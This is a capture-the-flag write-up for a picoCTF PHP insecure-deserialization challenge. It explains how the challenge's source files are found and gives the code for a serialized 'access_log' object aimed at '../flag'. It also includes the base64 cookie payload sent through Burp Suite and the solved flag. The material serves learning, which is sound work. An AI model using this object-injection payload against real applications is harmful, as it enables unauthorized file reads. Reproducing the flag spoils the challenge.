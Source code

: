 In this lvl we first need to use robots.txt to get the clue.
I used sql injection and all but it did'nt work.
Then I saw that there's a admin.phps file present so I used it but got nothing.
Then I saw that there's a index page when I used inspect therefore I did /index.php but got nothing then I used /index.phps to get the source code of the working of index.php.<br>
Then I saw the refernce of 'authentication' therfore I used /authentication.phps to get the source code and saw a refernce of cookie so I used /cookie.phps to get the working.
The best thing to do is to get all the source code at one file and investigate through it. 
<br>
I have'nt included the whole source code but it would be better to traverse through the source code and see the working of calling functions and all. I have included the main code to explain the working
<br>
In cookie.phps we have this code :<br>
if ($perm_res->is_guest() || $perm_res->is_admin()) { <br>
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		<br>header("Location: authentication.php");
		<br>die();
<br>	} else
   <br>    {
	<br>	$msg = ``<h6 class="text-center" style="color:red">Invalid Login.</h6>";``
       <br> }
       <br><br>
       and this piece of code
    <br><br>
<br>    if(isset($_COOKIE["login"])){
<br>    try{
	<br>	$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		<br>$g = $perm->is_guest();
<br>		$a = $perm->is_admin();
<br>	}
<br>	catch(Error $e){
	<br>	die("Deserialization error. ".$perm);
<br>	}

<br>
<br>
So now the thing we need to do it use a cookie of name login and give the value of [urlencode(base64_encode(serialize($perm_res)))] this to it.<br>
This whole thing can be done easily but to serialize we need to use php compiler. <br>
Code for serializing:<br>
<br><?php
<br>class access_log
<br>{
<br>	public $log_file;
<br> function __construct($lf) {
<br>		$this->log_file = $lf;
<br>	}
<br>function __toString() {
<br>		return $this->read_log();
	<br>}
<br>	function append_to_log($data) {
	<br>	file_put_contents($this->log_file, $data, FILE_APPEND);
<br>	}
<br>function read_log() {
<br>		return file_get_contents($this->log_file);
	<br>}
<br>}
<br>echo (serialize(new access_log("../flag")));
<br>?>
<br>This ../flag is used as its the path and 'new access_log' is constructor of class access_log you can verify this if you would have done what I told.
<br>Then use code chef to do the rest to encoding.<br>
Now use burpsuite and give <br>
Cookie:login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9; PHPSESSID=a365f6sfh7jp6nu84eu570lnbn
<br>Here TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9 is what we get after encoding and all.
<br>Forward this and you will get the error with the flag ^-^.
 
------------------------------------
Flag : picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}
-----------------